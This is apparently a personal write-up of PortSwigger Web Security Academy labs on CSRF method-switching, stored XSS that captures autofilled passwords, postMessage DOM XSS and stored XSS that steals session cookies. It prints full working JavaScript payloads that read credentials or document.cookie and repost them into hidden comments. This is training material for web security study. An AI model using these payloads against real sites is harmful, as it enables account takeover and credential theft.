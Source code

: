 ### CSRF where token validation depends on request method
In this lab we know that the CSRF token depend on the request method, so first of all, as usual, we inspect the request made to change the email address once logged in the lab:
<br>![img](./img/38.png)<br>
We can see that the email address has changed (follow the redirect to see the final response of the server), now omitting the csrf parameter in the request we get an error:
<br>![img](./img/39.png)<br>
Try to change the request method to use GET (right click on the request body and select <b>Change request method</b>):
<br>![img](./img/40.png)<br>
It works even deleting the csrf parameter:
<br>![img](./img/41.png)<br>
So now we can create our malicious payload and to be hosted on the exploit server body (change the yellow value according to your Lab ID):
<br>![img](./img/42.png)<br>
Now click Store (1) to save the payload, then you can verify your exploit (2), then to solve the lab delivery the payload to the victim (3)

### Exploiting cross-site scripting to capture passwords
This is actually a funny and a challenging lab. Taking advantage of a XSS stored vulnerability we have to access the blog as administrator user. We know that the comment field is injectable, lets analyze the flow:
<br>![img](./img/33.png)<br>

First of all I thought to use the classic approach: stealing authentication cookie, but since the lab's cookie is HttpOnly we cannot access it through JS:
<br>![img](./img/34.png)<br>
Reading some hints we knew that if we set 2 inputs fields (username and password) in the comments of a post they will be filled automatically by the lab system before to execute our payload. Since my Burp version is Community I even cannot use Burp Collaborator, so the scenario I set it is to craft a payload that will submit a new comment containing the username and password collected whene a user (in this scenario of course this event is automated) visit the infected post. Following is the payload we will use in the comment field:
```
Username<input name=username id=username>
Password<input type=password id=password name=password onchange="pwn_usr()">
<script>
function pwn_usr() {
 var labId= '0aca008b0490873dc0c3c76000c0002a'; 
 var csrf = document.getElementsByName("csrf")[0].value;
 var secret_ = document.getElementById("username").value + ':' + document.getElementById("password").value;
 fetch('https://' + labId + '.web-security-academy.net/post/comment', {
   method: 'POST',
   body: 'csrf=' + csrf + '&postId=1&comment=This is amazing!<div style=visibility:hidden>' + secret_ + '</div>&name=zinzloun&email=zinzloun@libero.it&website='
  });
 };
</script>
```
When the password field is compiled the pwn_usr function is invoked, the function will create a new comment in the post with ID 3. Here we use the fetch JS API (https://www.w3schools.com/jsref/api_fetch.asp, remember that fetch is not supported in Internet Explorer 11 and earlier), to make the things a little bit obfuscated we will save the credentials in hidden div.
Lets create the malicious post comment:
<br>![img](./img/36.png)<br>
Just waiting a minute and then visiting the comments in the post id number 3 we can verify that our exploit worked:
<br>![img](./img/37.png)<br>
We can retrive the administrator password in the source of the page

### DOM XSS using web messages and a JavaScript URL
This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function. 
#### Lab
Inspecting the source code of the lab home page we can see that the following JS code is present
```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
Broadly a window object may obtain a reference to another (e.g., via targetWindow = window.opener), and then dispatch a MessageEvent on it with targetWindow.postMessage(). The receiving window is then free to handle this event as needed. The arguments passed to window.postMessage() (i.e., the "message") are exposed to the receiving window through the event object. But here the listener for dispatched message:
```
window.addEventListener('message', function(e)
```
does not implement any efficient security control, since the <b>origin</b> property is not checked and no verification of the received message syntax is implemented. Only a control on the message date is made on the presence of the http or https value, that does not prevent to inject JS command, e.g. the following message will bypass the control
```
alert(0);/*http:*/
```
In example above the http: string is inserted as a comment in JS so it is ignored, but the alert will be triggered. Knowing that we can proceed to craft our payload on the Exploit server:
<br>![img](./img/94.png)<br>

After haavig stored it (1), I tried to run (2) but I got a not found error. Reloding the exploit I can see that the message is not executed as JS:
<br>![img](./img/95.png)<br>

Let's try to add the javascript instructions before the print function as follows:
```
onload="this.contentWindow.postMessage('javascript:print();/*http:*/','*')"
```
The second argument, '*', specifies that any targetOrigin is allowed to send messages. Now store again the payload, view the exploit and the print window should appears, then deliver the exploit to the victim.

#### References
+ https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage

### Exploiting cross-site scripting to steal cookies
#### Lab
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. Not having Burp Professional I solved this lab without using the Collaborator server.

The comment field in the post comment form is vulnerable to stroed XSS:
--124--

To solve tha without the collaborator server we can inject a payload that will submit a comment post containing her cookie value, to obfuscate a bit the exploit we will write the value inside an hidden div. Follows the source code:
```
<script>
window.onload = function () {
var id = "0a61004a0326625cc19385eb00bd0067";
var d = "csrf=" + document.forms[0].children[0].value + "&postId=2&comment=ciao<div style=visibility:hidden>" + document.cookie + "</div>&name=Mario&email=mario@me.com&website";
fetch("https://"+ id + ".web-security-academy.net/post/comment", {
method: "POST",
mode: "no-cors",
body: d
});
};
</script>
```
The script, once the post 1 page comments is loaded an async POSTrequest (using fetch) is made to submitt a comment for the post having id=2, before to submit the form we have to read the csrf token generated by server.
--121--
Once the request is send our exploit is stored into the comments into the post having id=1, once someone visit the page a post comment (id 2) containing the user session cookie will be send inside a hidden div. Visiting the post id 2 page we can see the cookie session of antother user:
--122-- 


#### References
+ https://portswigger.net/web-security/cross-site-scripting/stored